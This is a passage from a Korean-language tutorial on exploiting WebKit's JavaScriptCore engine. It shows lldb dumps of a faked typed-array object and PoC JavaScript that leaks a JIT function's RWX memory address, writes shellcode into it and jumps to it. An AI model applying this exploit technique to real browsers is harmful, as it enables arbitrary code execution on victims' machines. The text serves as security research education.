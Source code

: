 결과를 '시각화'하기 위해 lldb 출력값을 살펴보자. container 객체는 0x11321e1a0 주소에 위치해 있다.

```
    (lldb) x/6gx 0x11321e1a0
    0x11321e1a0: 0x0100150000001138 0x0000000000000000
    0x11321e1b0: 0x0118270000001000 0x0000000000000006
    0x11321e1c0: 0x0000000113217360 0x0001000000000010
    (lldb) p *(JSC::JSArrayBufferView*)(0x11321e1a0 + 0x10)
    (JSC::JSArrayBufferView) $0 = {
      JSC::JSNonFinalObject = {
        JSC::JSObject = {
          JSC::JSCell = {
            m_structureID = 4096
            m_indexingType = '\0'
            m_type = Float64ArrayType
            m_flags = '\x18'
            m_cellState = NewWhite
          }
          m_butterfly = {
            JSC::CopyBarrierBase = (m_value = 0x0000000000000006)
          }
        }
      }
      m_vector = {
        JSC::CopyBarrierBase = (m_value = 0x0000000113217360)
      }
      m_length = 16
      m_mode = 65536
    }
```

m_butterfly 뿐만 아니라 m_mode 또한 null 값을 쓰면 안 된다는 것을 조심해야 한다. 지금은 문제가 되지 않지만 가비지 컬렉터가 돌아가기 시작한다면 문제가 된다. 이 문제와 관련해서는 조금 뒤에 살펴보도록 하자.

## 6.3 - 쉘코드 실행하기

자바스크립트 엔진들의 공통점 중 하나는 모든 엔진들이 JIT 컴파일을 이용한다는 사실이다. 컴파일된 인스트럭션을 메모리에 쓰고 나중에 이를 실행해야 하기 때문에, JSC를 포함한 대부분의 엔진은 쓰기 및 실행이 가능한 메모리 영역을 할당한다. 이 영역은 익스플로잇에 매우 유용한 타겟이 된다. 우리가 만든 메모리 읽기/쓰기 기능을 사용해 JIT 컴파일 코드의 포인터를 릭한 다음, 거기에 셸코드를 쓰고 함수를 호출하여 우리가 작성한 코드가 실행되게 할 것이다.

아래의 코드가 위 내용을 구현한 PoC 코드이다. 하단의 코드는 runShellcode 함수와 관련되어 있다.

```javascript
    // 함수를 생성하고 여러번 호출하여 JIT 컴파일이 실행되도록 한다.
    var func = makeJITCompiledFunction();
    var funcAddr = addrof(func);
    print("[+] Shellcode function object @ " + funcAddr);

    var executableAddr = memory.readInt64(Add(funcAddr, 24));
    print("[+] Executable instance @ " + executableAddr);

    var jitCodeAddr = memory.readInt64(Add(executableAddr, 16));
    print("[+] JITCode instance @ " + jitCodeAddr);

    var codeAddr = memory.readInt64(Add(jitCodeAddr, 32));
    print("[+] RWX memory @ " + codeAddr.toString());

    print("[+] Writing shellcode...");
    memory.write(codeAddr, shellcode);

    print("[!] Jumping into shellcode...");
    func();
```


[^1]: http://www.zerodayinitiative.com/advisories/ZDI-16-485/
[^2]: https://webkit.org/blog/3362/introducing-the-webkit-ftl-jit/
[^3]: http://trac.webkit.org/wiki/JavaScriptCore
[^4]: http://www.ecma-international.org/ecma-262/6.0/#sec-ecmascript-data-types-and-values
[^5]: http://www.ecma-international.org/ecma-262/6.0/#sec-objects
[^6]: https://en.wikipedia.org/wiki/Double-precision_floating-point_format
[^7]: http://www.ecma-international.org/ecma-262/6.0/#sec-array-exotic-objects
[^8]: http://www.ecma-international.org/
[^9]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/slice
[^10]: https://github.com/WebKit/webkit/blob/320b1fc3f6f47a31b6ccb4578bcea56c32c9e10b/Source/JavaScriptCore/runtime/ArrayPrototype.cpp#L848
[^11]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Symbol/species
[^12]: http://www.ecma-international.org/ecma-262/6.0/#sec-type-conversion
[^13]: https://bugzilla.mozilla.org/show_bug.cgi?id=735104
[^14]: https://bugzilla.mozilla.org/show_bug.cgi?id=983344
[^15]: https://bugs.chromium.org/p/chromium/issues/detail?id=554946
[^16]: https://www.gnu.org/software/guile/manual/html_node/Conservative-GC.html
[^17]: http://www.ecma-international.org/ecma-262/6.0/#sec-ecmascript-language-types-number-type
[^18]: http://www.ecma-international.org/ecma-262/6.0/#sec-typedarray-objects
[^19]: https://developers.google.com/v8/design#fast-property-access
[^20]: http://www.ecma-international.org/ecma-262/6.0/#sec-operations-on-objects
[^21]: http://www.ecma-international.org/ecma-262/6.0/#sec-ordinary-object-internal-methods-and-internal-slots-delete-p
[^22]: https://trac.webkit.org/wiki/WebKit2
[^23]: https://www.chromium.org/developers/design-documents/site-isolation